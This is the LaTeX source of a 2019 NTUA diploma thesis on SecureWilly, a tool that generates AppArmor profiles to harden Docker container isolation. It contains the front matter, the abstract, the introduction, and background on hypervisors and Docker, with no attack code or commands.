\documentclass[a4paper,oneside,openany,12pt, greek, english]{book}

%%% Packages
\usepackage{a4wide}
\usepackage{indentfirst}
\usepackage{color}
\usepackage{listings}
\usepackage{dirtytalk}
\usepackage[
backend=biber,
style=numeric,
sorting=none
]{biblatex}
\usepackage{mdframed}
\usepackage{graphicx}
\usepackage{enumitem}
\usepackage{float}
\usepackage{parcolumns}
\usepackage[english,greek]{babel}
\usepackage[utf8]{inputenc}
\usepackage[absolute,overlay]{textpos}
\usepackage{pagecolor}
\usepackage{afterpage}
\usepackage{hyperref}
\usepackage{filecontents}

\hypersetup{
    colorlinks,
    citecolor=black,
    filecolor=black,
    linkcolor=black,
    urlcolor=black
}

\addbibresource{references.bib}

\setcounter{tocdepth}{3}
\setcounter{secnumdepth}{2}

%%% Defining colours
\definecolor{aliceblue}{rgb}{0.94, 0.97, 1.0}
\definecolor{beaublue}{rgb}{0.74, 0.83, 0.9}
\definecolor{lightblue}{rgb}{0.68, 0.85, 0.9}
\definecolor{navajowhite}{rgb}{1.0, 0.87, 0.68}
\definecolor{tipcolor}{rgb}{0.82, 0.94, 0.75}
\definecolor{amber}{rgb}{1.0, 0.75, 0.0}
\definecolor{cadetgrey}{rgb}{0.57, 0.64, 0.69}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{graybluebackcolor}{rgb}{0.95,0.95,0.92}
\definecolor{coralred}{rgb}{1.0, 0.25, 0.25}
\definecolor{tealblue}{rgb}{0.21, 0.46, 0.53}
\definecolor{burgundy}{rgb}{0.8, 0.33, 0.0}

%%% Defining styles
\lstdefinestyle{Dockerfile}{
  backgroundcolor=\color{graybluebackcolor},   
  commentstyle=\color{tealblue},
  keywordstyle=\color{black},
  numbers=left,
  numberstyle=\small\color{black},
  stringstyle=\color{mauve},
  basicstyle={\small\color{black}\ttfamily},
  showstringspaces=false,
  frame=tb,
  xleftmargin=12pt,
  language = sh,
  aboveskip = 7pt,
  belowskip = 7pt,
  breaklines=true,
  breakatwhitespace=true,
  rulecolor=\color{black},
  numberbychapter=true
}

\lstdefinestyle{terminal}
{
  language=sh,
  frame=none,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\color{black}\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  commentstyle=\color{black},
  keepspaces=false,
  keywordstyle=\color{black},
  backgroundcolor=\color{graybluebackcolor},
  moredelim=**[is][\bfseries\color{coralred}]{\%}{\%} 
}

\lstdefinestyle{dockercommands}{
  frame=none,
  language=sh,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  keywordstyle=\color{black},
  commentstyle=\color{black},
  stringstyle=\color{black},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  numbers=none,
  backgroundcolor=\color{graybluebackcolor}
}

\lstdefinestyle{shellscript}{
  frame=tb,
  language=sh,
  xleftmargin=12pt,
  xrightmargin=3pt,
  aboveskip = 7pt,
  belowskip = 7pt,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=left,
  numberstyle=\small\color{black},
  keywordstyle=\color{burgundy},
  commentstyle=\color{tealblue},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  backgroundcolor=\color{graybluebackcolor},
  numberbychapter=true
}

\lstdefinestyle{bashscript}{
  frame=tb,
  language=bash,
  xleftmargin=12pt,
  xrightmargin=3pt,
  aboveskip = 7pt,
  belowskip = 7pt,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=left,
  numberstyle=\small\color{black},
  keywordstyle=\color{burgundy},
  commentstyle=\color{tealblue},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  backgroundcolor=\color{graybluebackcolor},
  numberbychapter=true
}

\newenvironment{dedication}{
  \fontsize{13.5}{12}\selectfont 
  \thispagestyle{empty}% no header and footer
  \vspace*{\stretch{0.5}}% some space at the top 
  \itshape             % the text is in italics
  \raggedleft
}
{\par % end the paragraph
  \vspace{\stretch{3}} % space at bottom is three times that at the top
  \clearpage           % finish off the page
}

\begin{document}
% Page 1 - English
%\newpagecolor{aliceblue}\afterpage{\restorepagecolor}
\thispagestyle{empty}
\begin{textblock*}{6cm}(2.5cm,2cm) % {block width} (coords) 

\includegraphics[width=0.6\linewidth]{../figures/ntuapyrforos.png}
\end{textblock*}

\begingroup
 
\begin{mdseries}  
\begin{textblock*}{103cm}(6.6cm,2.6cm) % {block width} (coords)
\fontsize{16}{12}\selectfont 
National Technical University of Athens
\end{textblock*}
\fontsize{14}{12}\selectfont
\begin{textblock*}{103cm}(6.6cm,3.37cm)
Electrical and Computer Engineering Department
\end{textblock*}
\begin{textblock*}{103cm}(6.6cm,4.05cm)
Department of Computer Science
\end{textblock*}
\begin{textblock*}{103cm}(6.6cm,4.7cm)
Computing Systems Laboratory
\end{textblock*}

\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break

\fontsize{18}{12}\selectfont
\begin{center}\textbf{Automatic security hardening of Docker containers using Mandatory Access Control, specialized in defending isolation}\end{center}
\hfill\break
\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.7\linewidth]{../figures/ekswfullo11.jpg}
\end{figure}
\hfill\break
\fontsize{17}{20.5}\selectfont

\begin{center}
Diploma Thesis
\\
by \textbf{Fani Dimou}
\end{center}

\hfill\break

\hfill\break\hfill\break
\fontsize{13}{12}\selectfont
\textbf{Supervisor:} Nectarios Koziris
\begin{textblock*}{103cm}(4.44cm,23.6cm)
Professor at NTUA
\end{textblock*}

\hfill\break\hfill\break\hfill\break
\begin{center}
Athens, March 2019
\end{center}

\end{mdseries}
\endgroup

% Page 2 - null
%\clearpage\null\thispagestyle{empty}
%\newpage


\clearpage\null\thispagestyle{empty}
\newpage

% Page 3 - English
\thispagestyle{empty}
\begin{textblock*}{6cm}(2.5cm,2cm) % {block width} (coords) 

\includegraphics[width=0.6\linewidth]{figures/ntuapyrforos.png}
\end{textblock*}

\begingroup
 
\begin{mdseries}  
\begin{textblock*}{103cm}(6.6cm,2.6cm) % {block width} (coords)
\fontsize{16}{12}\selectfont 
National Technical University of Athens
\end{textblock*}
\fontsize{14}{12}\selectfont
\begin{textblock*}{103cm}(6.6cm,3.37cm)
Electrical and Computer Engineering Department
\end{textblock*}
\begin{textblock*}{103cm}(6.6cm,4.05cm)
Department of Computer Science
\end{textblock*}
\begin{textblock*}{103cm}(6.6cm,4.7cm)
Computing Systems Laboratory
\end{textblock*}

\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break

\fontsize{18}{12}\selectfont
\begin{center}\textbf{Automatic security hardening of Docker containers using Mandatory Access Control, specialized in defending isolation}\end{center}
\hfill\break
\fontsize{17}{20.5}\selectfont

\begin{center}
Diploma Thesis
\\
by \textbf{Fani Dimou}
\end{center}

\hfill\break

\hfill\break\hfill\break
\fontsize{13}{12}\selectfont
\begin{textblock*}{103cm}(2cm,16.1cm)
\textbf{Supervisor:} %Nectarios Koziris
\end{textblock*}
\begin{textblock*}{103cm}(4.6cm,16.1cm)
Nectarios Koziris

Professor at ECE NTUA
\end{textblock*}

\fontsize{13}{12}\selectfont
\begin{textblock*}{103cm}(9.6cm,16.1cm)
\textbf{Co-Supervisors:}
\end{textblock*}
\begin{textblock*}{140cm}(13.1cm,16.1cm)
Katerina Doka

Senior researcher at ECE NTUA
\hfill\break

Giannis Giannakopoulos

PhD student at ECE NTUA
\end{textblock*}
\begingroup
\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break
Approved by the examining committee in May 2019.
%%Εγκρίθηκε από την τριμελή εξεταστική επιτροπή την .
\endgroup
\hfill\break\hfill\break\hfill\break

\begin{textblock*}{140cm}(2cm,22cm)
............................

Nectarios Koziris

Professor at ECE NTUA

\end{textblock*}

\begin{textblock*}{140cm}(7.5cm,22cm)
............................

Nikolaos Papaspyrou

Professor at ECE NTUA
\end{textblock*}

\begin{textblock*}{140cm}(12.9cm,22cm)
............................

Georgios Goumas

Assistant Professor at ECE NTUA
\end{textblock*}

\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break

\begin{center}
Athens, May 2019
\end{center}

\end{mdseries}
\endgroup


\thispagestyle{empty}
.........................................

\textbf{Fani Dimou}

Electrical and Computer Engineer
\hfill\break
\vspace*{\fill}
\hfill\break
Copyright \copyright Fani Dimou, 2019\\
All rights reserved.\\[12pt]\\
\hfill\break
This work is copyright and may not be reproduced, stored nor distributed in whole or in part for commercial purposes. Permission is hereby granted to reproduce, store and distribute this work for non-propfit, educational and research purposes, provided that the source is acknowledged and the present copyright message is retained. Enquiries regarding use for profit should be directed to the author. \\
\hfill\break
The views and conclusions contained in this document are those of the author and should not be interpreted as representing the official policies, either expressed or implied, of NTUA.
\vspace*{2cm}

\begin{dedication}
\say{Work hard in silence.

Let your success make the noise.}
\end{dedication}

\clearpage\null\thispagestyle{empty}
\newpage

\clearpage\null\thispagestyle{empty}
\newpage
\frontmatter
% Page 1
\hfill\break
\begingroup
\Large{\textbf{Abstract}}
\endgroup
\hfill\break

Nowadays, we are encountering virtualization in most of our computing environments. Docker, a software which performs operating-system-level virtualization, has revolutionized virtualization, as it made it possible to package an application with all of its dependencies into a lightweight container. It became prominent rapidly and companies are adopting Docker at a remarkable rate, including well known names such as Paypal, Visa, Ebay, etc. Its success derives from the multiple benefits it offers comparing to virtual machines, such as portability, better resource management, lighter overhead and faster boot up time. 

On the other side of the coin, Docker also brings some disadvantages, which were not encountered in VMs. The most concerning drawback is security, and more specifically, isolation between host and containers as well as between containers themselves. Containers have walls to protect isolation, but it is much easier to violate them than it is in VMs, and it is usual to do this because of bad-configured containers.

The goal of the current thesis is to design and implement a software, which will provide automatic security hardening of docker containers, using Mandatory Access Control. The software we created, named SecureWilly, handles either single or multi service docker projects and produces AppArmor profiles, one for each service. The profiles are adjusted to a given test plan that the user is asked to provide, and are completely tied to their service's task, which constitutes them efficient. They are also secure, since they are created in accordance to the principle of Least Privilege, which demands to allow only the necessary actions defined in the test plan, while any other action will be considered as redundant and will be blocked.

Moreover, we present an extensive research on vulnerable features of docker that could lead to violation of container's isolation and we implement specific examples of container breakout attacks, in the context of ethical hacking, which we created in order to extract rules that prevent these attacks, for our software.

Finally, we evaluate our software in functionality, performance and scalability using some benchmarks from CloudSuite, a very useful benchmark suite for cloud services, as well as a real program, Nextcloud, which is a widely used open source, self-hosted file share and communication platform. We successfully produced AppArmor profiles for the services of the benchmarks of CloudSuite and Nextcloud, hoping it will be a useful contribution to the respective communities.

\hfill\break
\begingroup
\Large{\textbf{Keywords}}
\endgroup

\hfill\break
Docker, Mandatory Access Control (MAC), AppArmor, Operating-system-level virtualization, Container-based virtualization, Containers, Cloud, Distributed Systems, Isolation, Container breakout attacks, Security

% Page 2 - null
%\clearpage\null\thispagestyle{empty}
%\newpage

\clearpage\null\thispagestyle{empty}
\newpage
\tableofcontents
\listoffigures
\mainmatter
\chapter{Introduction}

\section{Motivation}

Today, we are encountering virtualization in most of our computing environments. This derives from the fact that one can isolate completely the runtime environment, thus keeping the host machine intact, which is highly beneficial for software development. Moreover, in the web development world, virtualization is a \say{must-have} which enables companies to optimize server operation costs. \cite{virtualdocker}

Docker has revolutionized virtualization, as it made it possible to package an application with all of its dependencies into a lightweight container. The virtualization that Docker performs is called operating-system-level virtualization or container-based virtualization, since the guests implemented are also named containers. Regardless of the recent overnight success and the explosive growth of Docker, containers is a preexisting feature, but their use for easily deploying applications was a new aspect imported by Docker. Nowadays, Docker is the most popular container standard, as it augments this type of container-based virtualization, introducing some useful novelty concepts, like descriptive configuration files and the capability to commit one's updates on a container. 

Docker became prominent, mainly due to its speed and portability. In contrast with full hardware virtualization (like VMware ESXi, or QEMU), operating-system-level virtualization comes with lighter overhead, compared with full hardware virtualization. Since the containers do not require an operating system boot, they start in less than a second and the performance is very near bare metal (direct / non-virtualized) performance. As for the portability, a container wraps up an application with everything it needs to run, like configuration files and dependencies. This enables an easy and reliable run of applications on different environments and no matter how complex the applications are, they can be containerized.
 
In the light of the above, it is evident that these advantages are the main reason why companies, with well known names included in them such as Paypal, Visa, Ebay, Netflix, Yelp, Spotify etc, are adopting Docker at a remarkable rate.

The other side of the coin, though, is that, if docker containers are not used wisely and secured, it is more easier for threats and exploits to make their appearance, than it is in VMs. It is safe to say that VM's are more secure, since containers make system calls directly to the Kernel. This leads to an extended set of vulnerabilities, especially in the matter of isolation.

Despite all the advantages of Docker, isolation is a compromise. While it is entirely possible to isolate Docker containers like VMs, most standard Docker containers, meaning those running on a basic community or commercial Docker Engine on Linux, are not isolated from each other like VMs.

In the current thesis, we address the concern that arises regarding docker's isolation by securing docker containers via Mandatory Access Control (MAC). The MAC system we focus on is AppArmor. AppArmor is a Linux security module (LSM), which means it is a kernel enhancement that protects an operating system and its applications from security threats, by confining programs to a limited set of resources with the usage of profiles. We developed a software that creates AppArmor profiles for docker services, which are adjusted to the task of each application, respecting the principal of least privilege, in order to preserve isolation, by restricting a container's allowed actions.

\section{Contribution}
The main contributions of this work are the following:
\begin{enumerate}
\item Design and implementation of an open source software, SecureWilly\footnote{Code available at \url{https://github.com/FaniD/SecureWilly}}, that creates profiles for any application, either it is single service or multi-service, in order to secure the containers and preserve the isolation.
\item While other programs that create AppArmor profiles exist, SecureWilly is the first program that handles multi-service projects and produces one profile for each service, considering the cooperation of the services.
\item Extensive research on the vulnerable features of docker that can lead to attacks and thorough analysis of each one of them.
\item Several examples of breakout container attacks are implemented, in the context of ethical hacking, in order to assist security.
\item Alerting user about the vulnerabilities detected in the docker project that could lead to an attack, such as privileged mode or entering host's namespaces.
\item Creation of AppArmor profiles for an instance of Nextcloud platform (two profiles were created, one for the application of Nextcloud and one for the database that it uses), as experimental evaluation of SecureWilly.
\end{enumerate}

\section{Chapter outline}
In the next section of \textbf{Chapter 1}, we describe briefly the main characteristics of SecureWilly, the software that we created, and the phases of its development.

\textbf{Chapter 2}  focuses on Containerization, Docker and the security tools that exist in order to protect it.

\textbf{Chapter 3} describes the development of SecureWilly, in order to automatically produce secure and efficient AppArmor profiles for every service of a docker project. 

\textbf{Chapter 4} studies the attacks that can be committed to containers, especially when they are relevant to the violation of the isolation between host and containers. Several techniques that can be used to commit such attacks are described and is explained how SecureWilly can be used in order to prevent them, either by adding some rules in the AppArmor profile or by providing alerts to the user.

\textbf{Chapter 5} shows the results of SecureWilly's usage on CloudSuite's benchmarks and Nextcloud and the evaluation of SecureWilly's functionality, performance and scalability is investigated. SecureWilly's profiles are compared to the respective genprof profile. AppArmor overhead is calculated by counting time on one of the implemented examples.

\textbf{Chapter 6} summarizes the main conclusions of the current thesis, shows related existing software and gives recommendations for future work. 

\section{Brief description of SecureWilly}
SecureWilly is the open source software we created in order to automatically produce AppArmor profiles for docker projects.

It handles both single service and multi-service projects and it respects the cooperation of services which is reflected on the rules of the AppArmor profiles.

Profiles are created per container and they follow the \say{Principle of Least Privilege}. This principle requires that in a particular abstraction layer of a computing environment, every module (such as a process, a user, or a program, depending on the subject) must be able to access only the information and resources that are necessary for its legitimate purpose. \cite{polp} This assures that each profile will restrict in the greater extent possible the corresponding service and it will allow exclusively the necessary operations of its task, while it will forbid any redundant action. Therefore, the profiles produced are secure and will defend isolation between host and containers.

Except for SecureWilly's main goal of producing AppArmor profiles, several other useful assets are also produced about the given docker project, such as alerts about the vulnerabilities detected, yml files for each service in case a docker-compose file does not exist and graphs illustrating the behaviour of each service through the rules of the profile produced.

The development of SecureWilly is divided in two phases:
\begin{itemize}
\item In the first phase, two parsers were used in two different types of analysis, in order to extract rules for the profile. Static analysis and its parser handles any initiative code of the docker project, given by the user and produces a preliminary profile, containing a minimum set of extracted rules from the code. Then, dynamic analysis takes place and its parser receives the preliminary profile of static analysis and uses it to exercise the docker project and extracts new rules by monitoring system logs.
\item In the second phase, we use reverse engineering by commiting container breakout attacks, in the context of ethical hacking, in order to create rules that would prevent these attacks and secure docker containers. This resulted in adding some fixed rules in the preliminary profile as well as producing some alerts about the vulnerabilities detected.
\end{itemize}



\chapter{Background}
\section{Virtualization}

The main task of any operating system is to basically manage the following four - physical - resources: Processor (CPU), Memory (RAM), Storage (HDD / SSD), The network card (NIC). The part of the operating system that does this and acts like a bridge between application and hardware of the computer is called the kernel. The means which a computer program uses, in order to request a service from the kernel of the operating system it is executed on, is called system calls (syscalls).

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.45\linewidth]{../figures/linuxos.jpeg}
   \caption{Linux Operating System connecting to Hardware}
\end{figure}

Virtualization is technology that allows you to create multiple simulated environments or dedicated resources from a single, physical hardware system. \cite{redvirtual}

A software called a hypervisor, also referred to as Virtual Machine Manager (VMM), connects directly to that hardware and allows the host computer to share its resources from the hardware and distribute them appropriately between separate, distinct, and secure environments known as virtual machines (VMs). The physical hardware, equipped with a hypervisor, is called the host, while the many VMs that use its resources are guests.

There are two types of Hypervisors: \cite{dockerall}
\begin{description}[style=nextline]
\item[Type 1 or \say{Bare Metal Hypervisor}]

This software is installed right on top of the underlying machine's hardware (so, in this case, there is no host OS, there are only guest OS's). This type of hypervisors is encountered on machines on which the whole purpose is to run many virtual machines.

Type 1 hypervisors have their own device drivers and interact with hardware directly unlike type 2 hypervisors. That's what makes them faster, simpler and hence more stable.

Some examples of hypervisors of Type 1 are the following: VMware ESX and ESXi, Microsoft Hyper-V, Citrix XenServer, Oracle VM.

\item[Type 2 or \say{Hosted Hypervisor}]

This is a program that is installed on top of the operating system. This type of hypervisor is something like a \say{translator} that translates the guest operating system's system calls into the host operating system's system calls.

An upside of a Type 2 hypervisor is that in this case we don't have to worry about underlying hardware and its drivers. We really just need to delegate the job to the host OS, which will manage this stuff for us. The downside is that it creates a resource overhead, and multiple layers sitting on top of each other make things complicated and lowers the performance.

Some examples of hypervisors of Type 2 are the following: VMware Workstation/Fusion/Player, VMware Server, Microsoft Virtual PC, Oracle VM VirtualBox, Red Hat Enterprise Virtualization.
\end{description}
\begin{textblock*}{103cm}(7.6cm,17.1cm)
\textbf{Type 1}
\end{textblock*}
\begin{textblock*}{103cm}(12.4cm,17.1cm)
\textbf{Type 2}
\end{textblock*}
\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.6\linewidth]{../figures/hypervisors2.png}
   \caption{Hypervisor Type 1 and Hypervisor Type 2}
\end{figure}

\section{Docker}

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.3\linewidth]{../figures/Docker.png}
   \caption{Trademark of Docker}
\end{figure}

\subsection{What is Docker?}
Docker is a computer program that performs operating-system-level virtualization. It was first released in 2013 and is developed by Docker, Inc.

It is not a standalone software, but a platform to run and manage software packages called containers. It packages an application and all its dependencies together in the form of a docker container, in order to ensure that the application works seamlessly in any environment.

